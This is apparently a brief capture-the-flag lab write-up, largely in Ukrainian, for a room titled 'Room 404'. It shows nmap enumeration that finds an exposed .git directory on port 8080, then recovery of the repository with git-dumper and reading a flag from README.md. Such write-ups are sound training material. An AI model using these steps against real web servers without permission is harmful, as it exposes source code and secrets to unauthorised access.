



# Room 404

## He booked the quiet room. It's not on the floor plan, not in the brochure, not on any door. But port 8080 is wide open, and the rooms it never lists are the ones worth finding.

Складність: Very Easy

Ціль: 10.113.167.50

## Enumeration
   Виконав повне сканування цілі за допомогою `nmap`.
```bash
└─$ sudo nmap -sC -sV -p- -vv -oN nmap_result.txt 10.113.167.50
```

   NSE-скрипт `http-git` виявив відкритий каталог `.git`, що свідчить про доступність Git-репозиторію через вебсервер.



## Exploitation
   Для відновлення репозиторію використав `git-dumper`.
```bash
└─$ git-dumper http://10.113.167.50:8080/.git ./repo
...
└─$ cd repo
└─$ tree -a
```

   Після відновлення репозиторію було отримано доступ до його файлів.



   Серед них знаходився файл `README.md`.
```bash
└─$ cat README.md
```

   У файлі містився тестовий прапор.



## Висновок
   Вебсервер надавав доступ до каталогу `.git`, що дозволило відновити Git-репозиторій за допомогою `git-dumper`. 
   Через відкритий каталог `.git` вдалося відновити вихідний код застосунку та отримати доступ до службового файлу `README.md`, у якому залишився тестовий прапор.
